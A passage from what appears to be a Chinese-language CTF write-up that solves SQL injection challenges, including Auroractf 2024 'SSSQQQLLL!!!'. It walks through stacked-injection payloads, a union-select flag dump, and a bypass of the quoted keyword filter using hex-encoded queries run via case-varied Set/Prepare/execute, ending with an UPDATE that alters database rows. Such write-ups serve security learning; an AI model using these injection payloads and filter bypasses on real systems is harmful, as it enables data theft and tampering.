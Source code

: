 ```
?wllm=-1%27/**/union/**/select/**/1,database(),mid(group_concat(flag),21)/**/from/**/LTLT_flag/**/%23
```

多读两次拿到了flag

### [Auroractf 2024]SSSQQQLLL!!!

sql，拿到测试发现是堆叠注入

```
1';show databases;#
```

![image-20250311182418251](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311182418251.png)

```
1';show tables from englishdb;#
```

![image-20250311182449533](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311182449533.png)

```
1';show columns from score;#
```

![image-20250311182523084](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311182523084.png)

想查看里面的数据，使用select发现了waf

```
呼呼呼, 给你一点waf: return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

查笔记查到一个用set和十六进制来绕过的，又发现一个waf，不过有提示，查看这个函数发现这个函数区分大小写的，所以只要换一下就可以绕过了

```
再给你一点waf: return strstr($inject, "set") || strstr($inject, "prepare"); 不妨查查strstr函数的用法?
```

​`select * from score`​->`0x73656c656374202a2066726f6d2073636f7265`​

```
1';Set@a=0x73656c656374202a2066726f6d2073636f7265;Prepare execsql from @a;execute execsql;#
```

![image-20250311182847159](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250311182847159.png)

获取成绩需要clown的成绩，所以猜测将error233和clown名字替换一下

```sql
UPDATE score SET name = 'clown' WHERE name = 'Err0r233';
#0x5550444154452073636f726520534554206e616d65203d2027636c6f776e27205748455245206e616d65203d20274572723072323333273b0d0a
```

```
1';Set@a=0x5550444154452073636f726520534554206e616d65203d2027636c6f776e27205748455245206e616d65203d20274572723072323333273b0d0a;Prepare execsql from @a;execute execsql;#
```

成功得到flag

‍
